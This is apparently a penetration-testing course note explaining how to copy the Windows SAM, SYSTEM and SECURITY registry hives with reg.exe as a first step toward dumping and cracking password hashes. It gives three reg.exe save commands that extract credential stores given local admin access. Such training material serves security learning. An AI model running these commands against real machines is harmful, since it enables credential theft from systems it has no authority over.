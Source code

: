 # Copying SAM Registry Hives
There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ffec8edc-1f07-4ad2-b0d6-ff610b1a97fb)
We can create backups of these hives using the reg.exe utility.

We have to launch cmd as admin in order to copy hives:
Commands to copy:
```bash
reg.exe save hklm\sam C:\sam.save
```
```bash
reg.exe save hklm\system C:\system.save
```
```bash
reg.exe save hklm\security C:\security.save
```
